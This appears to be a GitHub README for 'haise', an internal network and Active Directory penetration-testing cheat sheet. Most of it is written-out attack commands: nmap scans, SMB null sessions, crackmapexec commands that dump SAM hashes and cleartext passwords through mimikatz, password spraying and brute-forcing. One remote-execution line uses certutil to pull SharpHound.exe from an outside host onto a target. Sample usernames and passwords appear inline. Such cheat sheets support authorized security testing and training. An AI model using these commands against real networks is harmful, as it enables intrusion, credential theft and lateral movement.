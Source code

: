 # haise
## Internal Network Pentest Framework
![](https://github.com/syedumerqadri/haise/blob/master/image.jpg)


## Internal Penetration Testing:

An Internal Penetration Test differs from a vulnerability assessment in that it actually exploits the vulnerabilities to determine what information is actually exposed. An Internal Penetration Test mimics the actions of an actual attacker exploiting weaknesses in network security without the usual dangers. This test examines internal IT systems for any weakness that could be used to disrupt the confidentiality, availability or integrity of the network

## Methodology:

        •  Internal Network Scanning
                  traceroute www.google.com
                  nmap 192.168.1.*
                  Reverse IP Lookup (https://mxtoolbox.com/ReverseLookup.aspx)
                  Ip Info: https://ipinfo.io/
        
        •  Port Scanning
                  nmap -p- -T4 -iL sub.txt (Fast Scan)
                  nmap -A 192.168.1.1 (Little Intense and slow)
                  nmap -sV -sC -Pn -p 1-65535 -T5 --min-rate 1000 --max-retries 5 192.168.1.1
                  nmap -sS -sC -sV -v -p 445 -iL subnet-files.txt
                  nmap -sS -sC -sV -v -p 21 -iL subnet-files.txt

                  Web Ports: 80, 8080, 443

                  
        •  Fingerprinting
                  nmap -sV --version-intensity 5 192.168.1.1
                  nc 192.168.1.1 80
                  curl -sI http://192.168.1.1

        •  Vulnerbility Scanning
                  nmap --script vuln 192.168.1.1 -d
                  nikto
                  dirsearch
                  nessus    (https://localhost:8834)
        
        •  IDS Penetration Testing
                  lbd 45.34.23.12
                  wafw00f http://192.168.1.1  
    
        •  SMB Enumeration
                Discover Host:
                cme smb <subnet>    (cme => crackmapexecs)

                Null Session:
                cme smb 192.168.24.0/24 -u '' -p ''
                smbmap –host-file smb-hosts.txt

                SMB Map:
                smbmap -H 192.168.1.1
                smbmap.py –host-file smb-hosts.txt u ‘jsmith’ -p ‘Spring!2020’ -q -R –depth 2 –exclude ADMIN$ IPC$ -A ‘passw’

        •  Exploit Research
                  https://www.exploit-db.com/
                  https://www.rapid7.com/db/
                  https://cxsecurity.com/search/       

        •  Manual Vulnerability Testing and Verification
        •  Password Strength Testing
                  rate limiting
                  sparta(tool)
                  burp (brute force)

        •  Infrastructure Mapping
                  Maltego

                  DNS Server
                  Firewall
                  Cloud
                  Employ Device
                  Logging Server
                  Directory Service
                  Admin Workstation
                                                               
        •  Administrator Privileges Escalation
        •  Database Security Controls Testing    
        •  Third-Party/Vendor Security Configuration Testing

## AD Pentesting:
“Active Directory” Called as “AD” is a directory service that Microsoft developed for the Windows domain network. 
Using it you can to control domain computers and services that are running on every node of your domain.

Active Directory (Pen Test ) is most commonly used in the Enterprise Infrastructure to manage 1000’s of computers in the organization with a single point of control as “Domain Controller”
Performing Penetration Testing of Active Directory is more interesting and are mainly targeted by many APT Groups with a lot of different techniques

    Check SMB Service in use:
    cat hosts.txt | xargs -I{} sh -c 'crackmapexec smb {}'
    
    Enumerate shares:
    crackmapexec 192.168.0.12 -u username -p 'password'  --shares

    Whos logged into the machine:
    crackmapexec 192.168.0.12 -u username -p 'password' --users

    Dump local sam hashes
    python crackmapexec 192.168.0.12 -u username -p 'password' --sam

    Dump clear text password:
    crackmapexec 192.168.0.12 -u username -p 'password' -m modules/credentials/mimikatz.py

    Downloading:
    cme smb 10.128.111.203 -u 'xampp' -p '@sdF1234' -d HQCMSDBQ -x "certutil.exe -urlcache -split -f http://172.17.17.214/SharpHound.exe pentest/zz.exe"

    Check account lockout policy:
    crackmapexec smb 192.168.1.101 -u syedali -p 'reptile125ZZZ'  --pass-pol

    Password spray:
    python crackmapexec.py 192.168.0.0/24 -u username -p 'password'
                
    Bruteforce:
    crackmapexec smb 192.168.1.102 -u username.txt -p gooo

    Connecting:
    smbclient -L 192.168.1.112 -U "Creative Green"
